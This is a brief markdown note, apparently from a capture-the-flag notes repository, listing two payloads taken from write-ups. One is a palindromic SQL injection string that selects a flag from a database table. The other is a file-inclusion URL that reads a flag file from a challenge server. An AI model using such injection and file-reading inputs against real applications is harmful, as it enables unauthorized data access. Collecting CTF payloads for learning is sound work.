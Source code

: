 ### Some payloads from writeups :

- OEPS --> The one line encyclopedia of palindromic sentences :   
`%'||(SELECT flag FROM flags)||'%');---;)'%'||)sgalf MORF galf TCELES(||'%`

- File inclusion
`https://galleria.chal.nbctf.com/gallery?file=/tmp/flag.txt`
